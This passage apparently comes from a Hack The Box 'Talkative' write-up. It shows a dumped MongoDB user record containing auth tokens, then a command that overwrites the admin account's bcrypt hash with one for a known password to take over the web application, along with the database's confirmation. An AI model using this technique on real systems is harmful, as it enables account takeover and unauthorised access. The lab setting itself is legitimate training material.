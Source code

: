```bash
          token: 'o4zx1LZjOsDpcr-RcYNAGn7nc16yJHsxd9S4AUoAuV1',
          email: 'caue@talkative.htb',
          when: ISODate("2022-04-11T08:26:13.319Z"),
          reason: 'enroll'
        }
      },
      email: {
        verificationTokens: [
          {
            token: 'E4rxMtTSaE8NArp2cWACGfOEVnSmA-QfNTfYbB6lO8g',
            address: 'caue@talkative.htb',
            when: ISODate("2022-04-11T08:26:07.220Z")
          }
        ]
      },
      resume: {
        loginTokens: [
          {
            when: ISODate("2022-04-11T08:26:07.619Z"),
            hashedToken: 'tFHSgDEWRMFvFZU9ORlgAAOrfHKJtHjhMPDQJPKhzxg='
          }
        ]
      }
    },
    emails: [ { address: 'caue@talkative.htb', verified: false } ],
    type: 'user',
    status: 'online',
    active: true,
    _updatedAt: ISODate("2022-04-11T08:26:13.340Z"),
    roles: [ 'user' ],
    name: 'caue',
    lastLogin: ISODate("2022-04-11T08:26:07.617Z"),
    statusConnection: 'online',
    utcOffset: 8,
    username: 'caue'
  }
]
```

Now we are talking! Let's change the `admin` bcrypt hash so we can access the web application.
What we can do is copy the password hash from `caue` user that we know it is `password123` and update the admin password hash with the same.

```bash
rs0 [direct: primary] meteor> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2b$10$P.0yayHX0mTpMy59HyHwPuu1ch/JSyoQPsOgglGB7ThVhnNZ4rQ22" } } } })
DeprecationWarning: Collection.update() is deprecated. Use updateOne, updateMany, or bulkWrite.
{
  acknowledged: true,
  insertedId: null,
  matchedCount: 1,
  modifiedCount: 1,
  upsertedCount: 0
}
```
